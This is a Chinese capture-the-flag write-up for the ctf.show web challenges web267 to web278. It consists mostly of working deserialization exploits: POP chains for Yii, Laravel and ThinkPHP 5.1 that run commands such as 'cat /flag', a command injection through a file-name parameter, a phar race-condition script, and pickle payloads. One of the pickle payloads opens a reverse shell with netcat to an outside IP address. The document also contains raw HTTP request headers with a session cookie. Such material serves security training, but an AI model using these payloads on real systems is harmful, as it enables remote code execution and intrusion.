User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://7a057240-d351-485c-8737-50344637e16a.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8

a:2:{i:0;O:7:"ctfshow":2:{s:8:"username";N;s:8:"password";N;}i:0;N;}
```

## web267

wappalyzer直接抛出是yii框架，查到一个yii框架的反序列化漏洞CVE-2020-15148

在登录界面弱口令admin/admin可以登录

在about界面查看源码，有`<!--?view-source -->`提示

尝试传入`/index.php?r=site%2Fabout&view-source`发现拿到源码

```
///backdoor/shell
unserialize(base64_decode($_GET['code']))
```

链子的话在复现的时候已经学过了，这里直接打

但用system不知道为什么没有回显，试一下shell_exec

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'shell_exec';
            $this->id = 'ls / | tee 1.txt';				//命令执行
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['close'] = [new IndexAction(), 'run'];
        }
    }
}
namespace yii\db{

    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator();
        }
    }
}
namespace{

    use yii\db\BatchQueryResult;

    echo base64_encode(serialize(new BatchQueryResult()));
}
```

注意这里是在/backdoor/shell路由下

```
?r=backdoor/shell&code=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjA6InlpaVxyZXN0XEluZGV4QWN0aW9uIjoyOntzOjExOiJjaGVja0FjY2VzcyI7czoxMDoic2hlbGxfZXhlYyI7czoyOiJpZCI7czoxNjoibHMgLyB8IHRlcyAxLnR4dCI7fWk6MTtzOjM6InJ1biI7fX19fQ==
```

然后访问/1.txt

```
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

读flag就行

## web268

上题的wp没用了

继续挖掘一下链子

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'shell_exec';
            $this->id = 'cat /flags | tee 1.txt';				//命令执行
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['isRunning'] = [new IndexAction(), 'run'];
        }
    }
}

namespace Codeception\Extension{

    use Faker\Generator;
    class RunProcess
    {
        private $processes = [];
        public function __construct(){
            $this->processes[]=new Generator();
        }
    }
}

namespace {
    use Codeception\Extension\RunProcess;

    echo urlencode(base64_encode(serialize(new RunProcess())));
}
```

在RunProcess类中的`__destruct()`方法也可以触发`__call()`方法

## web269

之前的链子又不通了，这个yii反序列化的姿势是真多啊

```php
<?php
namespace yii\rest {
    class IndexAction
    {
        public function __construct()
        {
            $this->checkAccess = "shell_exec";
            $this->id = "cat /f* | tee 1.txt";
        }
    }
}
namespace yii\web {
    use yii\rest\IndexAction;
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct()
        {
            $this->writeCallback = [new IndexAction(), "run"];
        }
    }
}
namespace yii\db {
    use yii\base\BaseObject;
    use yii\web\DbSession;
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader = new DbSession();
        }
    }
}
namespace {
    use yii\db\BatchQueryResult;
    echo(base64_encode(serialize(new BatchQueryResult())));
}
```

## web270

上道题的poc也能打，可能这两道题没啥区别？也可能是269的poc用之前的poc也能打吧

## web271

Laravel的反序列化漏洞https://blog.csdn.net/byname1/article/details/137176425

去复现完就直接打

exp

```php
<?php
namespace Illuminate\Foundation{
    class Application
    {
        protected $bindings = [];

        public function __construct()
        {
            $this->bindings = array(
                'Illuminate\Contracts\Console\Kernel' => array(
                    'concrete' => 'Illuminate\Foundation\Application'
                )
            );
        }
    }
}
namespace Illuminate\Auth{
    class GenericUser{
        protected $attributes=[];
        public function __construct()
        {
            $this->attributes['expectedOutput']=['1'];
            $this->attributes['expectedQuestions']=['1'];
        }
    }
}
namespace Illuminate\Foundation\Testing{

    use Illuminate\Auth\GenericUser;
    use Illuminate\Foundation\Application;
    class PendingCommand{
        protected $command;
        protected $parameters;
        public $test;
        protected $app;
        public function __construct(){
            $this -> command = "phpinfo";
            $this -> parameters[] = "1";
            $this -> app = new Application();
            $this -> test = new GenericUser();
        }
    }
}
namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    echo urlencode(serialize(new PendingCommand()));
}

```



成功执行，我们换命令就行

## web272&273

禁用了pendingCommand类，反而换了一种更古老的链子

```php
<?php
namespace Illuminate\Broadcasting {
    use Faker\Generator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Generator();
            $this->event = 'cat /fl*';
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        public function __construct(){
            $this -> formatters = ['dispatch' => 'system'];
        }
    }
}
namespace {
    $a = new Illuminate\Broadcasting\PendingBroadcast();
    echo urlencode(serialize($a));
}

```

## web274

tp5.1版本的反序列化，值得信赖吗有点意思

具体审框架反序列化的话可以看我[PHP反序列化-TP5.1.x框架]的文章

exp

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct() {
            $this -> files = [new Pivot()];
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}
namespace think{
    abstract class Model{
        private $data = [];
        protected $append = [];
        public function __construct(){
            $this -> append = ["test" => ["test"]];
            $this -> data = ["test" => new Request()];
        }
    }
    class Request{
        protected $hook = [];
        protected $config;
        protected $param;
        protected $filter;
        public function __construct(){
            $this -> hook = ["visible" => [$this,"isAjax"]];
            $this -> config = ['var_ajax'=> 'aaa'];
            $this -> param = ["aaa"=>'whoami'];
            $this -> filter = "system";
        }
    }
}
namespace {
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```



之后换一下命令就行了

## web275

```php
highlight_file(__FILE__);

class filter{
    public $filename;
    public $filecontent;
    public $evilfile=false;

    public function __construct($f,$fn){
        $this->filename=$f;
        $this->filecontent=$fn;
    }
    public function checkevil(){
        if(preg_match('/php|\.\./i', $this->filename)){
            $this->evilfile=true;
        }
        if(preg_match('/flag/i', $this->filecontent)){
            $this->evilfile=true;
        }
        return $this->evilfile;
    }
    public function __destruct(){
        if($this->evilfile){
            system('rm '.$this->filename);
        }
    }
}

if(isset($_GET['fn'])){
    $content = file_get_contents('php://input');
    $f = new filter($_GET['fn'],$content);
    if($f->checkevil()===false){
        file_put_contents($_GET['fn'], $content);
        copy($_GET['fn'],md5(mt_rand()).'.txt');
        unlink($_SERVER['DOCUMENT_ROOT'].'/'.$_GET['fn']);
        echo 'work done';
    }
    
}else{
    echo 'where is flag?';
}

where is flag?
```

这里的话如果成功写入文件的话，会执行一个文件的复制和源文件的删除操作，所以显然无法在这里操作，那么试图在`__destruct()`中操作一下

试试能不能闭合

一开始是传入

```php
?fn=;ls');php
```

去闭合的，但是发现rm后面好像不能为空，那就用php

```
?fn=php;tac flag.php
```

还有一个方法

在检查中只需要有一个满足条件就能返回true了，所以也可以在content中满足条件

```
GET /?fn=;ls HTTP/1.1
Host: bb8f6782-e3ec-40a4-af73-f337395ac1e1.challenge.ctf.show
Connection: keep-alive
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8
referer: https://bb8f6782-e3ec-40a4-af73-f337395ac1e1.challenge.ctf.show/

flag
```

## web276

```php
class filter{
    public $filename;
    public $filecontent;
    public $evilfile=false;
    public $admin = false;

    public function __construct($f,$fn){
        $this->filename=$f;
        $this->filecontent=$fn;
    }
    public function checkevil(){
        if(preg_match('/php|\.\./i', $this->filename)){
            $this->evilfile=true;
        }
        if(preg_match('/flag/i', $this->filecontent)){
            $this->evilfile=true;
        }
        return $this->evilfile;
    }
    public function __destruct(){
        if($this->evilfile && $this->admin){
            system('rm '.$this->filename);
        }
    }
}

if(isset($_GET['fn'])){
    $content = file_get_contents('php://input');
    $f = new filter($_GET['fn'],$content);
    if($f->checkevil()===false){
        file_put_contents($_GET['fn'], $content);
        copy($_GET['fn'],md5(mt_rand()).'.txt');
        unlink($_SERVER['DOCUMENT_ROOT'].'/'.$_GET['fn']);
        echo 'work done';
    }
    
}else{
    echo 'where is flag?';
}
```

多了一个admin的检测，明显单纯的传参实例化是进不去`__destruct()`方法的，那这里就可以用phar反序列化了，因为有操作文件的函数嘛，又刚好有写文件的口子

```php
<?php
class filter{
    public $filename = '123;tac fla*';
    public $filecontent;
    public $evilfile=true;
    public $admin = true;

}
$phar = new phar('test.phar');//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$phar->setMetadata(new filter());//自定义的meta-data存入manifest
$phar->addFromString("flag.txt","flag");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

这道题的话需要条件竞争，因为会删除文件，所以需要在删除处触发phar反序列化，所以写个条件竞争脚本

```php
import requests
import threading

#读取phar文件
def read_phar():
    with open('test.phar','rb') as f:
        data = f.read()
        return data

#上传phar文件
def write_phar(url,data):
    requests.post(url,data=data)

#触发反序列化
def unserialize_phar(url,data):
    r = requests.post(url,data=data)
    if 'ctfshow{' in r.text:
        print('success')
        print(r.text)
        exit()
if __name__ == '__main__':
    url = "http://b06413cf-f642-4143-afeb-db0053384195.challenge.ctf.show/"
    data = read_phar()
    while True:
        w = threading.Thread(target=write_phar,args=(url+"?fn=phar.txt",data))
        r = threading.Thread(target=unserialize_phar,args=(url+"?fn=phar://phar.txt",'123'))
        w.start()
        r.start()
```

## web277

```html
<!--/backdoor?data= m=base64.b64decode(data) m=pickle.loads(m) -->
```

pickle反序列化，估计没啥过滤，直接打吧

```python
import pickle
import os
import base64

class Test:
    def __reduce__(self):
        return (os.popen, (r'whoami',))

T = Test()
test = pickle.dumps(T)
test1 = base64.b64encode(test)
print(test1)
```

传入后显示backdoor here，估计没回显，打无回显rce就行，写不了文件的话那就打反弹shell

```python
import pickle
import base64

class cmd():
    def __reduce__(self):
        return (eval,("__import__('os').popen('nc 124.223.25.186 3333 -e /bin/sh').read()",))

c = cmd()
c = pickle.dumps(c)
print(base64.b64encode(c))
```



原来写进去文件的，但是是写在了根目录，我说怎么访问不到

## web278

```
过滤了os.system
```

这么看来的话上题应该是用os.system去打pickle反序列化的，所以这道题也是可以用popen的


